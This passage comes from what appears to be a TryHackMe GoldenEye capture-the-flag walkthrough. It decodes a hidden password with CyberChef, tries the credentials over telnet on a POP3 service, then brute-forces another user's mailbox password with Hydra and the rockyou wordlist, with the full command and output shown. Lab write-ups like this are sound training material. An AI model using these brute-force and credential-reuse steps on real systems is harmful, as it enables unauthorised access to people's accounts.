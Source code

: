 ```js
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}
```

`Boris`

5. Who needs to make sure they update their default password?

[https://gchq.github.io/CyberChef/#recipe=From_HTML_Entity()&input=JiM3MzsmIzExMDsmIzExODsmIzEwNTsmIzExMDsmIzk5OyYjMTA1OyYjOTg7JiMxMDg7JiMxMDE7JiM3MjsmIzk3OyYjOTk7JiMxMDc7JiM1MTsmIzExNDs](<https://gchq.github.io/CyberChef/#recipe=From_HTML_Entity()&input=JiM3MzsmIzExMDsmIzExODsmIzEwNTsmIzExMDsmIzk5OyYjMTA1OyYjOTg7JiMxMDg7JiMxMDE7JiM3MjsmIzk3OyYjOTk7JiMxMDc7JiM1MTsmIzExNDs>)

`InvincibleHack3r`

6. Whats their password?
7. Now go use those credentials and login to a part of the site.

## Task 2 Its mail time...

Onto the next steps..

1. Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable?

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER
+OK
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
quit
+OK Logging out
Connection closed by foreign host.
```

3. If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ hydra -l natalya -P /usr/share/wordlists/rockyou.txt pop3://10.10.74.5:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:02:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:04:56
```
